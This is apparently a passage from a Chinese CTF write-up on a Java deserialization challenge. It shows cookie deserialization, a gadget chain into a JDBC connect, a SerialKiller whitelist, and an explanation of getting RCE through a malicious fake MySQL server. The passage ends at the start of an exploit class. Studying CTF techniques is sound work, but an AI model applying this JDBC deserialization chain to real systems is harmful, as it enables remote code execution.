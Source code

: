 ```java
    if (cookieData == null || cookieData.equals(""))
      return "redirect:/index"; 
    Info info = (Info)deserialize(cookieData);
    if (info != null)
      model.addAttribute("info", info.getAllInfo()); 
    return "hello";
  }
```

反序列化调用链:info.getAllInfo()->InfoInvocationHandler.invoke()->DatabaseInfo.checkAllInfo()->DatebaseInfo.connect()
```java
  private void connect() {
    String url = "jdbc:mysql://" + this.host + ":" + this.port + "/jdbc?user=" + this.username + "&password=" + this.password + "&connectTimeout=3000&socketTimeout=6000";
    try {
      this.connection = DriverManager.getConnection(url);
    } catch (Exception e) {
      e.printStackTrace();
    } 
  }
```
存在`serialkiller.conf`配置,限制了反序列化类白名单
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- serialkiller.conf -->
<config>
    <refresh>6000</refresh>
    <mode>
        <!-- set to 'false' for blocking mode -->
        <profiling>false</profiling>
    </mode>
    <blacklist>

    </blacklist>
    <whitelist>
        <regexp>gdufs\..*</regexp>
        <regexp>java\.lang\..*</regexp>
    </whitelist>
</config>
```

jdbc反序列化漏洞
> 当JDBC连接到数据库时，驱动会自动执行SHOW SESSION STATUS和SHOW COLLATION查询，并对查询结果进行反序列化处理,如果我们可以控制jdbc客户端的url连接，去连接我们自己的一个恶意mysql服务(这个恶意服务只需要能回复jdbc发来的数据包即可)，当jdbc驱动自动执行一些查询(如show session status或show collation)这个服务会给jdbc发送序列化后的payload，然后jdbc本地进行反序列化处理后触发RCE

需要我们自己开启一个fake_sql_server

D:\\CTF_Tools/

```java

import gdufs.challenge.web.invocation.InfoInvocationHandler;
import gdufs.challenge.web.model.DatabaseInfo;
import gdufs.challenge.web.model.Info;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.Base64;

public class Main {
    public static void main(String[] args) throws Exception{
        DatabaseInfo databaseInfo = new DatabaseInfo();
```